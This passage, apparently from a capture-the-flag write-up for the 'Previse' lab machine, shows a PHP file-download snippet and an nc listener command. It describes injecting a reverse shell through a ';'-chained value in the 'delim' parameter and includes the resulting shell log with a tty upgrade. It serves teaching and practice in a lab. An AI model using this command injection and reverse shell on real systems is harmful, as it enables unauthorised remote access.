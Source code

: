 ```php
$filename = "out.log";

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
}
?>
```

To exploit this we first set up our ncat listener.

```
$ nc -lvnp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we send ourselves a reverse shell with burp in the delim parameter by chaining a command to it with `;`.

[![burp_rce](/img/previse/burp_rce.png)](/img/previse/burp_rce.png)

After recieving the shell we upgrate it to get a full tty and fix the terminal size.

```
$ nc -lvnp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.10.11.104.
Ncat: Connection from 10.10.11.104:59280.
bash: cannot set terminal process group (1447): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@previse:/var/www/html$ ^Z
```